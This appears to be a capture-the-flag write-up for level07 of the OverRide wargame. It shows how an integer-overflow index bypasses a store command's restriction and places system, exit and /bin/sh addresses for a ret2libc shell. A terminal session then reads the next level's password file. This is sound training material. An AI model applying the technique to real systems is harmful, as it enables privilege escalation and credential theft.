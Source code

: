 # level07

In this level, we have an executable that handle different commands
- store
- read
- quit

We have an info
>wil has reserved some storage

While checking the binary with ghidra, we can see a that we can't store any multiple of 3

We will find the buffer size, explains have been made in [gdb writeup](gdbwriteup.md)

At the end of the buffer, we will store the 3 different addresses of system, exit and /bin/sh

so at index 114, 115, 116 (not 456, 457, 458 because we are storing integers)

We can't store at 114 because it's a multiple of 3, so we will do an integer overflow to store at 114

4294967296 / 4 + 114 = 1073741938

so at the end, we will store at index 1073741938, 1073741939, 1073741940

| Index | Value |
|-------|-------|
| 1073741938 | 4159090384 |
| 1073741939 | 4159040368 |
| 116 | 4160264172 |

```bash
level07@OverRide:~$ ./level07
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 1073741939
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 1073741940
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```